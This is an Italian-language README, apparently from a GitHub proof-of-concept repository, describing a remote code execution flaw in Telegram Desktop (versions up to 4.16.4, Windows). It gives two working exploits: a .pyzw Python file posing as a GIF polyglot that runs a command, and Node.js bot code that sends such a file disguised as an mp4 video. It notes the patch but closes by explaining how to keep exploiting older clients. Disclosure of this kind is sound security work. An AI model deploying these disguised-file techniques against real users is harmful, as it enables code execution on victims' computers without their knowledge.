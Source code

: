 # TELEGRAM DESKTOP RCE
## Setup della vittima
- **Telegram Desktop Version <= 4.16.4**
- **Python installato**
- **OS = Windows**

### WARNING: Questi PoC funzionano solo su Windows, altri sistemi operativi non sono stati testati.
La vulnerabilità si basa sul "typo" nello scrivere il nome dell'estensione "pyzw" nell'elenco delle estensioni pericolose.

![photo1713802375(1)](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/1908a7dc-816b-47a9-9389-9915de4e2ea1)

## PoC 1 ==> file polyglot (image/gif)

File con del codice python ma che ha MIME “image/gif”
**exploit1.pyzw**
```
GIF89A = “test”
import os
os.system(“calc”)
```
Infatti **inserendo nell’header del file il magic number 47 49 46 38 37 61 (GIF89A)
è possibile creare un file che sembra una GIF ma che in realtà nasconde al suo interno un codice malevolo**.

![photo1713493979](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/a8e72a18-55bb-401c-bfb9-a2c17799c98d)

L'hexdump:

![image_2024-04-19_04-04-03](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/05e65e01-c8a7-43c7-a50d-d362773e44be)

Durante il caricamento il file viene considerato come una GIF da telegram desktop
tuttavia, nel momento di visualizzazione appare come una GIF non funzionante e viene visualizzato come un rettangolo nero.

Essendo considerata come una GIF da telegram desktop, quando il client prova ad aprirla, viene passato il controllo al sistema operativo; a quel punto Windows (basandoci sull’estensione e non sul MIME) la apre con python, permettendo di fatto RCE.

## PoC 2 ==> Telegram BOT API (video/mp4)
Codice che si vuole far eseguire alla vittima
**exploit2.pyzw**
```
__import__("subprocess").call(["calc.exe"])
```

Questa vulnerabilità sfrutta un altro concetto, le API di telegram hanno una funzione **SendVideo** che permette di inviare dei video tramite multipart/form-data e si è scoperto che **non ci sono controlli per verificare se viene effettivamente caricato un file di tipo video, dunque è possibile caricare dei file di qualunque estensione e di qualsiasi MIME come fossero dei video**.

![immagine](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/1e02b04d-64c7-4f65-8d56-80026b492286)

Dato che il client si fida(va) ciecamente del server, il file verrà visualizzato come un video. 
Questo accade perchè il server di telegram memorizza i "metadati" inviati insieme alla request fatta per caricare il video e poi il client di telegram desktop utilizza questi metadati per mostrare l'anteprima del video.


**SendVideoCall.js**
```
const fs = require("fs");
const TelegramBot = require("node-telegram-bot-api");

const token = "<BOT_TOKEN>";

const bot = new TelegramBot(token, { polling: true });

bot.onText(/\/video/, (msg) => {
  const chatId = msg.chat.id;

  bot.sendVideo(
    chatId,
    fs.readFileSync("exploit2.pyzw"),
    {
      width: 300,
      height: 300,
      duration: 30,
      // thumbnail: "https://duckduckgo.com/favicon.ico",
    }, {
      filename: "fakeVideo.pyzw",
      contentType: "video/mp4"
    }
  );
});
```

Tuttavia, nel momento di visualizzazione, appare come un video non funzionante e viene visualizzato come un rettangolo nero con il simbolo "play" al centro e la durata fake (specificata dall'attaccante nella sua API call nel parametro "duration").

<img width="545" alt="image_2024-04-22_19-59-25" src="https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/4286b7f6-e70e-470d-a661-d7f1fa5f9cbd">


Quando il client prova ad aprirlo (essendo considerato come un video da telegram desktop) viene passato il controllo al sistema operativo; a quel punto Windows (basandoci sull’estensione e non sul Content-Type) lo apre con python, permettendo di fatto RCE.

## WARNING: la vulnerabilità è stata patchata!
- **lato server**: aggiungendo l'estensione .untrusted ai file .pyzw (*.pyzw.untrusted)
- **lato client** (> 4.16.4) :
	* aggiungendo "pyzw" all'elenco delle estensioni pericolose
	* facendo in modo che non venga mostrata l'ateprima delle GIF e dei video non funzionanti 
	* aggiungendo un controllo per verificare che il MIME corrisponde al tipo di estensione inviata; se non corrisponde, il client aggiungerà l'estensione corrispondente al MIME/Content type, ad esempio:
		*  se viene inviato un file con MIME GIF verrà scaricato dal client con estensione corrispondente \*.pyzw.gif, 
		*  invece, se il file viene inviato dal BOT con ContentType "video/mp4" allora il file verrà scaricato sul client come \*.pyzw.mp4.
 	
<br>

![photo1713802375](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/2ae70b62-e69b-424b-9649-ad347670e30d)


**È ancora possibile sfruttare la vulnerabilità** rielaborando uno degli exploit se: 
- il target ha ancora il client telegram desktop vecchio installato (<= 4.16.4);
- si conosce un programma installato nel computer della vittima in grado di eseguire delle azioni a seguito dell'apertura di un file (il file in questione deve avere un'estensione non presente nell'elenco delle estensioni pericolose).
